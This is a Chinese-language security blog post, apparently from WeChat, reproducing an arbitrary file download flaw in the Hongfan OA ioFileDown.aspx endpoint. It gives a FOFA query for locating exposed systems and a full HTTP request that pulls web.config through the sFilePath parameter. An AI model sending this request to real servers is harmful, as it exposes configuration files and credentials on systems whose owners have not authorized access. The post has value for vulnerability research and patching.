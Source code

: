 #  红帆OA ioFileDown 任意文件下载

原创 blkx  [ 天澜实验室 ](javascript:void\(0\);)

**天澜实验室** ![]()

微信号 gh_c5fea27198a7

功能介绍 观水有术，必观其澜！
专注于感知国内外常见系统的漏洞态势，对漏洞进行分析、复现、武器化形成。涵盖漏洞复现、攻防演练、应急响应、工具开发等知识内容。秉承“没有网络安全就没有国家安全”的宗旨，热衷并服务于网络安全事业。

____

___发表于_

收录于合集 #漏洞复现 18个

![]()

**请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习交流使用，如若非法他用，与平台和本文作者无关，需自行负责！**

 **00**

 **漏洞概述**

![]()

红帆OA ioFileDown接口存在任意文件下载漏洞，可下载系统文件。

 **01**

 **空间搜索语法**

![]()

fofa

app="红帆-ioffice"

![]()

 **02**

 **利用过程**

![]()

登录界面

![]()

ioFileDown接口存在任意文件读取漏洞，可下载系统文件到本地。

  *   *   *   *   *   *   *   *   *   * 

    
    
    GET /ioffice/prg/interface/ioFileDown.aspx?sFilePath=/ioffice/web.config HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Accept-Encoding: gzip, deflate, brAccept-Language: zh-CN,zh;q=0.9Connection: closeUpgrade-Insecure-Requests: 1  
      
    

漏洞存在响应包如下。  

![]()

 **03**

 **nuclei**

![]()

![]()

获取脚本关注本公众号后发送：红帆OA1原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创原创创原创原创  

✓

关注我们

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

